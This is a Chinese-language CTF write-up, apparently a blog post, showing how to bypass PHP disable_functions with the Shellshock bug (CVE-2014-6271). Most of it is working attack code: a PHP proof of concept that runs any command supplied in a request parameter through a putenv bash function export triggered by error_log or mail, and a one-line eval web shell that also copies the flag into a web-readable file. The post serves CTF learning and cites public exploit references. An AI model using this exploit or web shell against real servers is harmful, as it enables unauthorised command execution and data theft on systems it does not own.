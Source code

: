 首先连接蚁剑，发现执行不了函数
![](https://img-blog.csdnimg.cn/20200429185757968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
直接上传poc：
```php
<?php
function runcmd($c){
  $d = dirname($_SERVER["SCRIPT_FILENAME"]);
  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') || function_exists('mail'))){
    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){
      $tmp=tempnam(sys_get_temp_dir(), 'as');
      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");
      if (function_exists('error_log')) {
        error_log("a", 1);
      }else{
        mail("a@127.0.0.1", "", "", "-bv");
      }
    }else{
      print("Not vuln (not bash)\n");
    }
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output!=""){
      print($output);
    }else{
      print("No output, or not vuln.");
    }
  }else{
    print("不满足使用条件");
  }
}

// runcmd("whoami"); // 要执行的命令
runcmd($_REQUEST["cmd"]); // ?cmd=whoami
?>
```
通过putenv来设置环境变量，默认putenv定义的环境变量名必须以PHP_开头。error_log()函数会在执行sh -c -t -i触发payload

手工写入吧，首先创建a.php用来执行命令，test.php存放执行后的flag，使用tac读取flag，访问a.php：
```php
<?php
  @eval($_REQUEST['ant']);
  putenv("PHP_test=() { :; }; tac /flag >> /var/www/html/test.php");
  error_log("admin",1);
  //mail("admin@localhost","","","","");
?>
```
![](https://img-blog.csdnimg.cn/20201008212726136.png#pic_center)


参考：
[PHP < 5.6.2 - 'Shellshock' Safe Mode / disable_functions Bypass / Command Injection](https://www.exploit-db.com/exploits/35146)
[破壳漏洞(Shellshock)分析CVE-2014-6271](https://www.linuxidc.com/Linux/2014-10/108239.htm)
[破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之一](https://www.freebuf.com/news/48331.html)

